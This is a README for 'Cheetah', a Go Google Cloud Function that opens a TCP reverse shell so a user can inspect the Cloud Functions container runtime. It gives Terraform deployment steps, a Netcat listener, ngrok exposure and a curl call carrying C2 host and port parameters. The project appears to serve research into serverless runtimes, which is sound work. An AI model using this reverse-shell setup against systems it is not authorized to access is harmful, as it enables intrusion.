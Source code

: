 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Go](https://go.dev)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
gcloud auth application-default login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}')
export TF_VAR_project_id=YOUR_PROJECT_ID
cd ./cheetah/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function URL:

```bash
export CHEETAH_FUNCTION_URL=$(terraform output --json | jq -r '.cheetah_function_url.value')
export CHEETAH_API_KEY=$(terraform output --json | jq -r '.cheetah_api_key.value')
curl -H "X-API-Key: $CHEETAH_API_KEY" "$CHEETAH_FUNCTION_URL"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cheetah --url $CHEETAH_FUNCTION_URL --api-key $CHEETAH_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "$CHEETAH_FUNCTION_URL?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](./docs/NOTES.md) on what you can accomplish once you connect to the runtime via Cheetah.

